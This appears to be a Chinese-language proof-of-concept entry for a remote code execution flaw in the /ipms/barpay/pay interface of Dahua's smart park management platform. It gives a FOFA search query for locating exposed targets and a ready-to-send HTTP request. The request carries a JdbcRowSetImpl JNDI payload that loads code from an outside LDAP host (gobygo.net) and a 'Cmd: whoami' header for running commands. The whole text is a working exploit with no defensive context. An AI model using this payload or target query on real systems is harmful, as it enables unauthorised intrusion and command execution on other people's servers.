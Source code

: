 ## 大华智慧园区综合管理平台ipms接口存在远程代码执行漏洞

大华智慧园区综合管理平台/ipms/barpay/pay存在远程代码执行漏洞，允许未经授权的攻击者执行系统命令。

## fofa
```
body="src=/WPMS/asset/common/js/jsencrypt.min.js"
```

## poc
```
POST /ipms/barpay/pay HTTP/1.1
Host: {host}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cmd: whoami
Content-Type: application/json
Accept-Encoding: gzip
Content-Length: 104

{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://gobygo.net/A4", "autoCommit": true}
```
